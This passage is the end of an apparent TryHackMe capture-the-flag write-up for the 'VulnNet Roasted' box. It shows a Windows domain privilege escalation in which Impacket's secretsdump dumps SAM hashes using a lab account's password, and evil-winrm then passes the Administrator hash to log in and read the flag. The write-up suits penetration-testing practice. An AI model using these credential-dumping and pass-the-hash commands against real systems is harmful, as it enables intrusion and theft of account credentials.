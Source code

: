 # Privilege Escalation:

Since user a-whitehat is in `Domain Admins` group, we can dump the entire SAM database and get access to all the hashes from any user whose on the box, such Administrator who has higher privilege.

To do so, I'll use `secretsdump.py` in `Impacket`:

```
┌──(impacket-env)─(root💀nam)-[~/ctf/thm/ctf/VulnNet_Roasted]
└─# python3 /opt/impacket/examples/secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@$IP
[...]
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[Redacted]:::
[...]
```

We can now copy `Administrator`'s hash, and use it to login with `evil-winrm`:

```
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet_Roasted]
└─# evil-winrm -i $IP -u "Administrator" -H <Redacted_Hash>                              
[...]
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
vulnnet-rst\administrator
```

# Rooted:

**system.txt**

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\system.txt
THM{Redacted}
```

# Conclusion:

What we've learned:

1. DNS Server enumeration (`dig`)
2. SMB enumeration (`smbclient`, `smbmap`)
3. Dumping users, passwords and hashes via `Impacket` scripts